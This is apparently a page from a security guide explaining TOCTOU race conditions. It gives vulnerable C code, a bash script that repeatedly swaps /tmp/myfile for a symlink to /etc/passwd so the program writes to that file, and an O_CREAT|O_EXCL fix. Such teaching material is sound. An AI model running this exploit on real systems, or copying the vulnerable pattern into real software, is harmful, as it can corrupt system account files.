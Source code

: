 
## Race Conditions

### TOCTOU (Time-of-Check to Time-of-Use)

**Vulnerable code:**

```c
// Check if file exists and is writable
if (access("/tmp/myfile", W_OK) == 0) {  // Time-of-Check
    // Attacker can replace /tmp/myfile with symlink to /etc/passwd here!
    FILE *f = fopen("/tmp/myfile", "w");  // Time-of-Use
    fprintf(f, "data");
    fclose(f);
}
```

**Exploitation:**

```bash
#!/bin/bash
# Create race condition exploit

# In one terminal: Run vulnerable program repeatedly
while true; do
    ./vulnerable_program
done

# In another terminal: Replace file with symlink rapidly
while true; do
    rm -f /tmp/myfile
    touch /tmp/myfile
    rm -f /tmp/myfile
    ln -s /etc/passwd /tmp/myfile
done

# Eventually vulnerable program will open /etc/passwd for writing
```

**File system race conditions:**

```c
// Vulnerable: Check then create
if (stat("/tmp/logfile", &st) == -1) {  // Check if doesn't exist
    // Race window
    FILE *f = fopen("/tmp/logfile", "w");  // Create
}

// Secure: Open with O_CREAT | O_EXCL
int fd = open("/tmp/logfile", O_CREAT | O_EXCL | O_WRONLY, 0600);
if (fd == -1) {
    // File already exists
}
```
